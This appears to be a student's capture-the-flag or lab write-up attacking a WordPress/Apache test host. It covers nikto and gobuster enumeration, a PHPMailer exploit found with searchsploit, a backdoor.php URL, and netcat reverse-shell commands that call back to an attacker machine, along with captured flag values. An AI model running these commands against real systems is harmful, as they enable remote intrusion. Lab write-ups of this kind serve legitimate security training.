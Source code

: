 - Flag1.txt: `flag1{a2c1f66d2b8051bd3a5874b5b6e43e21}`
- Exploit
  - Network Mapping and User Enumeration (WordPress site)  
    - `nmap` was used to discover open ports.  
      - Able to discover open ports and tailor their attacks accordingly.
    - `nikto` and `gobuster` were used to enumerate the website
- Command: `nikto -C all -h 192.168.1.115`
- Command: `gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u 192.168.1.115`

Focusing the attack on the Apache Server

Enumerate the Apache Web Server with `nikto`
Command: `nikto -C all -h 192.168.1.115`

![](/24-Final-Project/ImagesProject/1-01.jpg)

The website at this URL is:

![](/24-Final-Project/ImagesProject/1-02.jpg)

By following links, we see this is a wordpress site:

![](/24-Final-Project/ImagesProject/1-03.jpg)

More in-depth enumeration with Gobuster.
- Command: `sudo apt-get update`
- Command: `sudo apt-get install gobuster`

![](/24-Final-Project/ImagesProject/1-05.jpg)

- Command: `gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u 192.168.1.115`

![](/24-Final-Project/ImagesProject/1-06.jpg)

Following the links which were enumerated by both `nikto` and `gobuster`, we note the `PATH` file in the following directory has as different timestamp.

![](/24-Final-Project/ImagesProject/1-07.jpg)

![](/24-Final-Project/ImagesProject/1-04.jpg)

---

## Flag 2

- flag2.txt: `flag2{6a8ed560f0b5358ecf844108048eb337}`  
- Exploit Used:  
  - Used Searchsploit to find vulnerability associated with PHPMailer 5.2.16, exploited with bash script to open backdoor on target, and opened reverse shell on target with Ncat listener. 
  - Used Searchsploit to find any known vulnerabilities associated with PHPMailer.
- Commands:
  - **Command:** `searchsploit phpmailer`
  - **Command:** `nc -lnvp 4444`  
  - **Command:** `nc 192.168.1.90 4444 -e /bin/bash`  
  - **URL:** `192.168.1.115/backdoor.php?cmd=nc%20192.168.1.90%204444%20-e%20/bin/bash`
  - **Command:** `python -c ‘import pty;pty.spawn(“/bin/bash”)’`
